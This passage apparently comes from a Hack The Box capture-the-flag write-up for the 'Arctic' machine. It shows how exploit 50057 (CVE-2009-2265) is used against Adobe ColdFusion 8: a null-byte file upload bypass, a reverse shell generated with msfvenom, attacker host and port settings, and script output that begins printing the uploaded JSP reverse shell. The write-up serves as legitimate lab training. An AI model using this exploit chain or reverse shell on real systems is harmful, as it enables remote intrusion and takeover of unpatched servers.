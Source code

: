 ```shell
--------------------------------------------------------------------- ---------------------------------
[...]
```

**In here, we can see there's a Remote Code/Command Execution (RCE) exploit in Adobe ColdFusion 8, let's mirror it:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:16:33(HKT)]
└> searchsploit -m 50057     
  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
    Codes: CVE-2009-2265
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/siunam/ctf/htb/Machines/Arctic/50057.py
```

After reading through all the exploit code, this exploit Python script will exploit a **file upload vulnerability** in `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`, and uses null byte (`%00`) to bypass the extension filter:

**The flow of the exploit script:**

1. Generate a JSP reverse shell via `msfvenom`
2. Upload the JSP reverse shell via `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm` file upload vulnerability
3. Setup a netcat listener
4. Execute the uploaded reverse shell in `/userfiles/file/{filename}.jsp`
5. Profit

**But before we run the exploit, we need to change the `lhost`, or maybe `lport` variable:**
```python
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.8'
    lport = 443
    rhost = "10.10.10.11"
    rport = 8500
```

**Then run the exploit script:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:23:41(HKT)]
└> python3 50057.py 

Generating a payload...
Payload size: 1495 bytes
Saved as: a8b0f6c3f98a496f816e77c8c98d81f2.jsp

Priting request...
Content-type: multipart/form-data; boundary=e2921372af2d435ab7839c8c1c22ad5a
Content-length: 1696

--e2921372af2d435ab7839c8c1c22ad5a
Content-Disposition: form-data; name="newfile"; filename="a8b0f6c3f98a496f816e77c8c98d81f2.txt"
Content-Type: text/plain

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
[...]
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
```